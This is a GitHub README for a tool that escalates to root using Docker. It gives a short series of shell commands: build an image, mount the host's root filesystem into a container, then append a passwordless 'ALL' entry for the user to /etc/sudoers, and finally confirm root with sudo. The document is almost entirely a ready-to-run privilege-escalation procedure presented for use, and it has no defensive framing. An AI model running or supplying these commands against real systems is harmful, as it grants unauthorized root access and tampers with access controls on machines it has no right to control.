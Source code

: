 # Achieve privilege escalation using Docker
**In order for the attack to work, you must have permissions to run docker commands!** \
\
To verify if you can run docker commands you can simply run:
```bash
docker
```

## Usage
1. Download the repository:
```bash
git clone https://github.com/pnasis/PrivEsc-using-Docker.git
```
2. Create the docker image based on the Dockerfile:
```bash
docker build -t privesc .
```
3. Run the image. We mount the root of our file system and put it in the working directory we defined as env variable:
```bash
docker run -v /:/privesc -it privesc /bin/bash
```
4. Verify you can see the sudoers file:
```bash
cat etc/sudoers
```
5. Add you at the sudoers file:
```bash
echo "<user> ALL=(ALL) NOPASSWD: ALL" >> /privesc/etc/sudoers
```
6. Verify that the sudoers file has been altered:
```bash
cat /privesc/etc/sudoers
```
7. Exit the shell of the container:
```bash
exit
```
8. Verify if you are sudo:
```bash
sudo bash
id
whoami
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

## License

This project is under the [Apache 2.0](https://choosealicense.com/licenses/apache-2.0/) licence.
